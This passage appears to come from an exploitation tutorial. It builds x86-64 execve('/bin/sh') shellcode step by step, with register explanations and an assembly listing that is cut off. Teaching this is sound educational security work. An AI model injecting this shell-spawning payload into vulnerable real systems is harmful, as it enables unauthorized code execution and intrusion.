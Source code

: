 Now the string `/bin/sh\x00` is at the top of the stack. Now the address to the top of the stack is stored in the `rsp` register (which currently points to the string `/bin/sh\x00`). So we can just push the value of the `rsp` register onto the stack, and the top value of the stack will be the pointer we need:

```
	push rsp
```

since the top value of the stack is an address pointing to `/bin/sh\x00`, we can just pop the top value of the stack into the `rdi` register: 

```
	pop rdi
```

Now the `rdi` register holds the address to `/bin/sh\x00` that we need. The next argument we need to worry about is the `rsi` register (which holds the pointer the arguments array). We need this to be zero (which the code will interpret as a null pointer). In order to do this, we can just xor the `rsi` register by itself, which will zero out the register since anything xored by itself is zero:

```
	xor rsi, rsi
```

now just like the `rsi` register, we need to store zero in the `rdx` register (which holds an array of the enviornment variables) for the same reason. We can just do the same thing and xor the `rsi` register by itself:

```
	xor rdx, rdx
```

lastly we need to load the value `0x3b` into the `rax` register, which is the syscall code for `execve`. That way when the syscall is made, it will know which syscall to make. For this, we can just move the value `0x3b` into that register:

```
	mov rax, 0x3b
```

proceeding that, our registers will look like this:

```
rax:	0x3b (code for execve)
rdi:	ptr to "/bin/sh\x00"
rsi:	0x0 (null ptr)
rdx:	0x0 (null ptr)
```

now we are ready to make the syscall:

```
	syscall
```

#### Assembling Shellcode

First step is you need to write the shellcode. Just do it in whatever text ediot you want. Here is what the shellcode for the segment above looks like:
```
$	cat shellcode.asm 
; execve(), based off of shellcode from http://shell-storm.org/shellcode/files/shellcode-603.php
[SECTION .text]
global _start
_start:
	mov rdi, 0x0068732f6e69622f
	push rdi
	push rsp
	pop rdi
	xor rsi, rsi
	xor rdx, rdx
	mov rax, 0x3b
```